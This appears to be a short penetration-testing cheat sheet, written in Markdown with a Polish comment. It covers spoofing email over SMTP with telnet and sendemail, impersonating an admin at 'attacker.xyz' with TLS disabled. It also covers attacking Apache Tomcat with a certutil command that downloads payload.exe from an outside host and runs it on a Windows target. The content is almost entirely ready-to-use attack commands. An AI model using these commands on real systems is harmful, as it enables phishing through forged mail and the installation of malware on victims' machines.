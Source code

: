 ```bash
$ telnet <target_IP> 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
# There is a dot(.) in the last line which indicates the termination of data.
```

## sendmail

```bash
$ sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no

```

# Apache Tomcat (T:8080)

The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

## $ msf
[[Metasploit#Apache Tomcat]]

```bash
# kopiuje na windows plik z adresu ... i zapisuje do pliku payload.exe
certutil -urlcache -f http://10.10.18.6:8000/payload.exe payload.exe
dir
.\payload.exe
```
